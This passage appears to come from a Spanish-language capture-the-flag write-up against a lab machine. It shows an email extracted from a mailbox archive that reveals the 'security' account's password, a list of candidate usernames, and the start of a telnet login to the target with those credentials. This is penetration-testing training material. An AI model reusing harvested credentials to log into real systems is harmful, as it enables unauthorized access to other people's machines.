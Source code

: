 ~~~bash
        {mso-style-priority:99;
        color:#0563C1;
        text-decoration:underline;}
a:visited, span.MsoHyperlinkFollowed
        {mso-style-priority:99;
        color:#954F72;
        text-decoration:underline;}
p.msonormal0, li.msonormal0, div.msonormal0
        {mso-style-name:msonormal;
        mso-margin-top-alt:auto;
        margin-right:0in;
        mso-margin-bottom-alt:auto;
        margin-left:0in;
        font-size:11.0pt;
        font-family:"Calibri",sans-serif;}
span.EmailStyle18
        {mso-style-type:personal-compose;
        font-family:"Calibri",sans-serif;
        color:windowtext;}
.MsoChpDefault
        {mso-style-type:export-only;
        font-size:10.0pt;
        font-family:"Calibri",sans-serif;}
@page WordSection1
        {size:8.5in 11.0in;
        margin:1.0in 1.0in 1.0in 1.0in;}
div.WordSection1
        {page:WordSection1;}
--></style><!--[if gte mso 9]><xml>
<o:shapedefaults v:ext="edit" spidmax="1026" />
</xml><![endif]--><!--[if gte mso 9]><xml>
<o:shapelayout v:ext="edit">
<o:idmap v:ext="edit" data="1" />
</o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p class=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>The password for the &#8220;security&#8221; account has been changed to 4Cc3ssC0ntr0ller.&nbsp; Please ensure this is passed on to your engineers.<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>John<o:p></o:p></p></div></body></html>
--alt---boundary-LibPST-iamunique-1954181331_-_---

----boundary-LibPST-iamunique-1954181331_-_---
~~~
Resumiendo el contenido, esto habla sobre un usuario "security" y una contraseña para el mismo, ademas menciona otro nombre que puede ser un posible usuario, para todos estos siempre es bueno anotarlos por si pueden ser usuario validos.
~~~bash
cat ../users 
john
engineer
backup_admin
security
~~~
Con esto, se me ocurre probar dichas credenciales en el servicio "telnet" para poder obtener una sesion en el servidor.
~~~bash
telnet 10.10.10.98 23     
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 
~~~